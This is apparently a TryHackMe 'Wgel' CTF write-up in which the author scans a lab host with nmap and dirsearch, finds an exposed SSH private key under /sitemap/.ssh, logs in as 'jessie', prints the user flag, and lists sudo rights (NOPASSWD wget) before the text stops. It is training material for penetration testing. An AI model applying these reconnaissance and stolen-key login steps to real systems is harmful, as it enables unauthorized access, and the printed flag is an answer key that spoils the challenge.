 # WGEL CTF [Tryhackme](https://tryhackme.com/r/room/wgelctf) 

Task 1.
Ques 1. User flag
```bash
057c67131c3d5e42dd5cd3075b198ff6
````
Ques 2. Root flag
```bash
```

## 1. Let make a scan
```bash
┌──(death㉿esther)-[~/Lab-CTF/wgel]
└─$ nmap -sV -sC 10.10.184.4 -Pn     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 17:31 IST
Nmap scan report for 10.10.184.4
Host is up (1.6s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.10 seconds
```
### OK So SSH & HTTP is open 
## 2. Let make a Dir scan 
```bash
┌──(death㉿esther)-[~/Lab-CTF/wgel]
└─$ dirsearch -u 10.10.184.4
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/Lab-CTF/wgel/reports/_10.10.184.4/_24-04-09_17-31-17.txt

Target: http://10.10.184.4/

[17:31:17] Starting: 
[17:31:30] 403 -  276B  - /.ht_wsr.txt
[17:31:30] 403 -  276B  - /.htaccess.bak1
[17:31:30] 403 -  276B  - /.htaccess.sample
[17:31:30] 403 -  276B  - /.htaccess.orig
[17:31:30] 403 -  276B  - /.htaccess_extra
[17:31:30] 403 -  276B  - /.htaccessBAK
[17:31:30] 403 -  276B  - /.htaccess_sc
[17:31:30] 403 -  276B  - /.htaccess_orig
[17:31:30] 403 -  276B  - /.htaccessOLD
[17:31:30] 403 -  276B  - /.html
[17:31:30] 403 -  276B  - /.htaccess.save
[17:31:30] 403 -  276B  - /.htaccessOLD2
[17:31:30] 403 -  276B  - /.htm
[17:31:30] 403 -  276B  - /.htpasswd_test
[17:31:30] 403 -  276B  - /.httr-oauth
[17:31:30] 403 -  276B  - /.htpasswds
[17:35:57] 403 -  276B  - /server-status/
[17:35:57] 403 -  276B  - /server-status
[17:36:01] 301 -  312B  - /sitemap  ->  http://10.10.184.4/sitemap/

Task Completed
```

## 3. Let Visite ip 

### I got username ```jessie``` in apache page code
![Screenshot from 2024-04-09 17-40-17](https://github.com/Esther7171/Wgel-Ctf/assets/122229257/e203f2b2-20a4-443a-92cd-3e115f1192b5)

### Let visite http://10.10.184.4/sitemap/
![Screenshot from 2024-04-09 17-39-41](https://github.com/Esther7171/Wgel-Ctf/assets/122229257/99831b4d-a0e9-49c2-bc3c-c04b85e3512a)

### This is website let discover more dir
```bash
┌──(death㉿esther)-[~/Lab-CTF/wgel]
└─$ dirsearch -u http://10.10.184.4/sitemap/

/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/Lab-CTF/wgel/reports/http_10.10.184.4/_sitemap__24-04-09_17-39-12.txt

Target: http://10.10.184.4/

[17:39:12] Starting: sitemap/
[17:39:17] 301 -  315B  - /sitemap/js  ->  http://10.10.184.4/sitemap/js/
[17:39:28] 200 -   14KB - /sitemap/.DS_Store
[17:39:31] 403 -  276B  - /sitemap/.htaccess.bak1
[17:39:31] 403 -  276B  - /sitemap/.ht_wsr.txt
[17:39:31] 403 -  276B  - /sitemap/.htaccess.sample
[17:39:31] 403 -  276B  - /sitemap/.htaccess.orig
[17:39:31] 403 -  276B  - /sitemap/.htaccess.save
[17:39:31] 403 -  276B  - /sitemap/.htaccess_sc
[17:39:31] 403 -  276B  - /sitemap/.htaccess_extra
[17:39:31] 403 -  276B  - /sitemap/.htaccess_orig
[17:39:31] 403 -  276B  - /sitemap/.htaccessBAK
[17:39:31] 403 -  276B  - /sitemap/.htaccessOLD
[17:39:31] 403 -  276B  - /sitemap/.htaccessOLD2
[17:39:31] 403 -  276B  - /sitemap/.htm
[17:39:31] 403 -  276B  - /sitemap/.html
[17:39:31] 403 -  276B  - /sitemap/.htpasswd_test
[17:39:31] 403 -  276B  - /sitemap/.htpasswds
[17:39:31] 403 -  276B  - /sitemap/.httr-oauth
[17:39:37] 200 -    2KB - /sitemap/.sass-cache/
[17:39:37] 200 -  460B  - /sitemap/.ssh/
[17:39:37] 301 -  317B  - /sitemap/.ssh  ->  http://10.10.184.4/sitemap/.ssh/
[17:39:38] 200 -    2KB - /sitemap/.ssh/id_rsa
[17:39:51] 200 -    3KB - /sitemap/about.html
[17:40:31] 200 -    3KB - /sitemap/contact.html
[17:40:33] 301 -  316B  - /sitemap/css  ->  http://10.10.184.4/sitemap/css/
[17:40:45] 301 -  318B  - /sitemap/fonts  ->  http://10.10.184.4/sitemap/fonts/
[17:40:53] 301 -  319B  - /sitemap/images  ->  http://10.10.184.4/sitemap/images/
[17:40:53] 200 -    1KB - /sitemap/images/
[17:40:57] 200 -  812B  - /sitemap/js/

Task Completed
```
### I got .ssh let go to it
![Screenshot from 2024-04-09 17-45-03](https://github.com/Esther7171/Wgel-Ctf/assets/122229257/312b71b7-74a0-4555-beff-843d219c2167)
### Let copy the rsa key
![Screenshot from 2024-04-09 17-45-33](https://github.com/Esther7171/Wgel-Ctf/assets/122229257/e0a3d363-3f48-4e58-8760-79118007b8f5)

## 4. Let Log-in ssh
* change permision of rsa
```bash
┌──(death㉿esther)-[~/Lab-CTF/wgel]
└─$ chmod 600 id_rsa
```
### try to log-in
```bash
┌──(death㉿esther)-[~/Lab-CTF/wgel]
└─$ ssh jessie@10.10.184.4 -i id_rsa 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
### I Got first flag 
```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
jessie@CorpOne:~/Documents$ 
```
### 5. Let privilage   
```bash
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
